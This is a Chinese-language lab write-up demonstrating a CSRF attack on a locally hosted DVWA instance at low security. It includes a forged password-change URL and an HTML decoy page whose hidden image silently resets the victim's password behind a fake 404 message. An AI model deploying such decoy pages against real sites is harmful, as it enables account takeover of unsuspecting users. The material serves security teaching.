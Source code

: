 [TOC]

# low

跨站请求伪造(Cross-site request forgery)，是指利用受害者未失效的身份认证信息（cookie等），诱骗其点击恶意链接，在受害人不知情的情况下以受害者的身份向服务器发送请求（如转账、修改密码等）

CSRF与XSS最大的区别在于它没有盗取cookie而是直接利用



## burp suite拦截

为了实现CSRF攻击（在用户不知情的情况下修改用户的密码），首先需要了解正常用户提交修改密码请求的URL以及需要什么样的参数。首先用burp suite拦截一个修改密码的报文。

![low0](image/low0.png)

![low1](image/low1.png)



攻击者没有用户的cookie，就很难去修改其他用户的密码。但如果攻击者能让其他用户浏览攻击者的网页，他们就能完成修改其他用户的密码。因为尽管这是一个跨站请求，但是浏览器此时会在修改密码的请求中附上用户的cookie，使得服务器正常处理来自攻击者的请求。



## CSRF攻击

可以直接构造链接`http://dvwa.localhost/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#`，由于低安全级别代码未做任何防范，用户点击这个链接时，之前的cookie信息未失效，浏览器会利用受害者的cookie往服务器发送请求。

点击该链接就会跳转到成功修改密码的页面

![low2](image/low2.png)



这个链接比较直白，真实场景下，黑客会对链接进行“伪装“



## 真实场景下的攻击

### 写一个攻击页面

攻击链接隐藏在图片中，受害者点击时会加载图片（即攻击受害者）

```html
<!DOCTYPE html>
<html>
<head>
    <title>hello</title>
</head>
<body>
    <img src = "http://dvwa.localhost/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#" border="0" style="display: none">
    <h1>404</h1>
    <p>file not found</p>
</body>
</html>
```



### 服务器配置

类似于配置dvwa

* 在目录`/etc/apache2/httpd.conf`添加

![low6](image/low6.png)

即

```
<VirtualHost *:80>
 DocumentRoot "/Users/liurenwan/Downloads/CSRF"
 ServerName csrf.localhost
    <Directory "/Users/liurenwan/Downloads/CSRF">
     Options Indexes FollowSymLinks
     AllowOverride All
      allow from all
      Require all granted
      </Directory>
 </VirtualHost>  
```

* 修改 `/etc/hosts`,添加

```
127.0.0.1 csrf.localhost
```

![low7](image/low7.png)

* 重启apache

```
apachectl restart
```

* 修改文件权限

![low8](image/low8.png)



### 真实攻击

用户点击链接`http://csrf.localhost/csrf.html`

受害者点击就会出现以下界面，受害者以为自己点进了无效界面，但实际上此时已经遭到了CSRF攻击

![low4](image/low4.png)

可以实验发现，此时使用密码“password”不能成功登陆，因为加载攻击页面时会请求攻击页面的图片（被隐藏），将密码修改为“123”

![low9](image/low9.png)

## 源码分析

源码在`DVWA/vulnerabilities/csrf/source/low.php`可看到服务器接受两个密码后，会判断两个密码是否匹配，匹配则修改，没有对CSRF攻击进行任何防范。

![low5](image/low5.png)